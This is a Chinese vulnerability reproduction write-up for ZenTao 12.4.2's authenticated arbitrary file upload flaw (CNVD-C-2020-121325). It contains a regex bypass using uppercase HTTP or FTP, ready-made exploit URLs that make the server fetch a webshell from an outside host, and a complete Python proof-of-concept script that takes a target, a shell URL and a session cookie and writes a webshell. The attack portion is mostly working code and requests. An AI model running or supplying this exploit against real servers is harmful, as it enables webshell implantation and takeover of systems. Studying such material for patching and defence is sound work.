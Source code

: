 # 禅道 12.4.2 后台任意文件上传漏洞 CNVD-C-2020-121325

## 漏洞描述

百度云安全团队监测到禅道官方发布了文件上传漏洞的风险通告，该漏洞编号为CNVD-C-2020-121325，漏洞影响禅道<=12.4.2版本。登陆管理后台的恶意攻击者可以通过fopen/fread/fwrite方法读取或上传任意文件，成功利用此漏洞可以读取目标系统敏感文件或获得系统管理权限。我们对漏洞进行了复现和分析，由于需要登录后台才可以利用，实际风险相对较低，建议受影响的禅道用户尽快升级到最新版。

## 漏洞影响

```
禅道 <= 12.4.2版本
```

## 环境搭建

百度下12.4.2的禅道环境按步骤安装下载即可

[禅道官方网站](https://www.zentao.net/)

![](images/202202162310834.png)

调用接口查询版本信息

```plain
http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```

![](images/202202162310134.png)



## 漏洞复现

漏洞触发需要后台权限

根据漏洞描述查看修改后的代码片段

![](images/202202162310790.png)

**修改前**

```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```

**修改后**

```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```

这里传入的参数为版本和link地址，然后base64解码，正则判断是否为**http**或**https**协议，这里的正则过滤并不完整，所以可以绕过用于下载恶意文件

![](images/202202162310974.png)

可以大写**http**或请求**FTP**来绕过正则

![](images/202202162310000.png)

![](images/202202162310460.png)

跟进一下**parent::downloadZipPackage**这个方法，跟着来到**zentao\module\client\model.php**文件中

![](images/202202162311682.png)

```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```

可以简单看到这里获取link传入的文件名，通过**fopen**打开该文件，写入禅道目录**www/data/client/version**中

查看一下有没有调用这个方法的地方

![](images/202202162311411.png)

找到了**download**方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法

```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```

首先先上传一个恶意文件，可以是FTP也可以是HTTP

例如我上传的文件URL为[**http://peiqi.tech/SHELL.php**](http://peiqi.tech/SHELL.php)

```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

请求地址则为

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

![](images/202202162311474.png)

下载的目录地址为**zentaopms\www\data\client\1**

目录为version名称

![](images/202202162311107.png)

成功上传webshell

![](images/202202162311177.png)

## 漏洞POC

- POC使用需要拥有后台Cookie

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
    print('+  \033[34mVersion: zentao version <= 12.4.2                                 \033[0m')
    print('+  \033[36m使用格式: python3 CNVD-C-2020-121325.py                             \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mShell       >>> http://xxx.xxx.xxx.xxx/shell.php(恶意文件地址)       \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)


def POC_2(target_url, shell_url, zentaosid):
    options = shell_url.split("://")
    if options[0] == "http":
        shell_url = "HTTP://" + options[1]
    elif options[0] == "ftp":
        shell_url = "ftp://" + options[1]
    else:
        print("\033[31m[x] 请使用正确的请求地址 \033[0m")
        sys.exit(0)

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"zentaosid={}".format(zentaosid)
    }

    shell_url_base = str((base64.b64encode(shell_url.encode('utf-8'))),'utf-8')
    vuln_url = target_url + "/www/index.php?m=client&f=download&version=test&link={}".format(shell_url_base)
    print("\033[32m[o] 请求漏洞url：{}\033[0m".format(vuln_url))

    try:
        response = requests.get(url=vuln_url, timeout=20, headers=headers)
        if "保存成功" in response.text:
            print("\033[32m[o] 成功写入Webshell，URL地址为：{}/www/data/client/test/Webshell_name.php\033[0m".format(target_url))
        else:
            print("\033[31m[x] 恶意文件下载失败 \033[0m")
    except:
        print("\033[31m[x] 恶意文件下载失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    shell_url  = str(input("\033[35mShell >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, shell_url, zentaosid)
```

![](images/202202162311483.png)